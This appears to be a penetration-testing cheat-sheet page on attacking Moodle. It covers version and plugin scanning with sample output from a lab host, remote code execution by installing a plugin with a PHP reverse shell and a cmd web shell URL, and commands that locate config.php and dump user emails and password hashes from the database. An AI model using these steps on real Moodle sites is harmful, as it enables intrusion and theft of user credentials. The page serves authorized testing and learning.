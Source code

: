 # Moodle


## Automatic Scans

### droopescan

```bash
pip3 install droopescan
droopescan scan moodle -u http://moodle.example.com/<moodle_path>/

[+] Plugins found:
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
Static readme file. - [[http://moodle.schooled.htb/moodle/README.txt|http://moodle.schooled.htb/moodle/README.txt]]
Admin panel - [[http://moodle.schooled.htb/moodle/login/|http://moodle.schooled.htb/moodle/login/]]

[+] Scan finished (0:00:05.643539 elapsed)
```
```
### moodlescan

```bash
#Install from https://github.com/inc0d3/moodlescan
python3 moodlescan.py -k -u http://moodle.example.com/<moodle_path>/

Version 0.7 - Dic/2020
.............................................................................................................

By Victor Herrera - supported by www.incode.cl

.............................................................................................................

Getting server information http://moodle.schooled.htb/moodle/ ...

server         	: Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by   	: PHP/7.4.15
x-frame-options	: sameorigin
last-modified  	: Wed, 07 Apr 2021 21:33:41 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...

Vulnerabilities found: 0

Scan completed.
```
```
### CMSMap

```bash
pip3 install git+https://github.com/dionach/CMSmap.git
cmsmap http://moodle.example.com/<moodle_path>
```
```
### CVEs

I found that the automatic tools are pretty **useless finding vulnerabilities affecting the moodle version**. You can **check** for them in [[https://snyk.io/vuln/composer:moodle%2Fmoodle|**https://snyk.io/vuln/composer:moodle%2Fmoodle**]]

## **RCE**

You need to have **manager** role and you **can install plugins** inside the **"Site administration"** tab**:**

![[<../../images/image (630).png>|]]

If you are manager you may still need to **activate this option**. You can see how ins the moodle privilege escalation PoC: [[https://github.com/HoangKien1020/CVE-2020-14321|https://github.com/HoangKien1020/CVE-2020-14321]].

Then, you can **install the following plugin** that contains the classic pentest-monkey php r**ev shell** (_before uploading it you need to decompress it, change the IP and port of the revshell and crompress it again_)

[[files/moodle-rce-plugin.zip]]

Or you could use the plugin from [[https://github.com/HoangKien1020/Moodle_RCE|https://github.com/HoangKien1020/Moodle_RCE]] to get a regular PHP shell with the "cmd" parameter.

To access launch the malicious plugin you need to access to:

```bash
http://domain.com/<moodle_path>/blocks/rce/lang/en/block_rce.php?cmd=id
```
```
## POST

### Find database credentials

```bash
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```
```
### Dump Credentials from database

```bash
/usr/local/bin/mysql -u <username> --password=<password> -e "use moodle; select email,username,password from mdl_user; exit"
```
```


